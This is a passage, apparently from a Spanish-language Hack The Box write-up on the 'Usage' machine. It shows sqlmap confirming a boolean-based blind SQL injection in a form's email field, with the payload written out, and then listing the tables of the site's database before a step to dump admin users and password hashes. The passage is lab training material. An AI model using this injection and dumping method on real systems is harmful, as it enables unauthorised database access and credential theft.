 ```bash
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=i2Ds4ewbYMa4v0PnAZmciihK3Qyt3QHzlinVK7Q3&email=1' AND 6962=(SELECT (CASE WHEN (6962=6962) THEN 6962 ELSE (SELECT 8525 UNION SELECT 1848) END))-- -
---
[20:33:38] [INFO] testing MySQL
[20:33:38] [INFO] confirming MySQL
[20:33:38] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 8.0.0
[20:33:38] [INFO] fetched data logged to text files under '/home/vzon/.local/share/sqlmap/output/usage.htb'

[*] ending @ 20:33:38 /2024-08-09/
```

Bien, como yo lo hice antes me muestra que ya tiene una sesión de esta web guardada. Pero a ti te dirá otra serie de preguntas mientras intenta encontrar la inyeccción (te dejo como reto ver como manejarlo). De aquí podras pedirle que dumpee de la base de datos del sitio web usuarios y hashes:

```bash
... [snip]
# Ver la base de datos actual
[20:38:35] [INFO] retrieved: usage_blog
current database: 'usage_blog'
# Ver tablas
20:42:42] [INFO] fetching tables for database: 'usage_blog'
[20:42:42] [INFO] fetching number of tables for database 'usage_blog'
[20:42:42] [INFO] resumed: 15
[20:42:42] [INFO] resumed: admin_menu
[20:42:42] [INFO] resumed: admin_operation_log
[20:42:42] [INFO] resumed: admin_permissions
[20:42:42] [INFO] resumed: admin_role_menu
[20:42:42] [INFO] resumed: admin_role_permissions
[20:42:42] [INFO] resumed: admin_role_users
[20:42:42] [INFO] resumed: admin_roles
[20:42:42] [INFO] resumed: admin_user_permissions
[20:42:42] [INFO] resumed: admin_users
[20:42:42] [INFO] resumed: blog
[20:42:42] [INFO] resumed: failed_jobs
[20:42:42] [INFO] resumed: migrations
[20:42:42] [INFO] resumed: password_reset_tokens
[20:42:42] [INFO] resumed: personal_access_tokens
[20:42:42] [INFO] resumed: users
Database: usage_blog
[15 tables]
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+
# Sacar toda la información de la tabla admin_users
```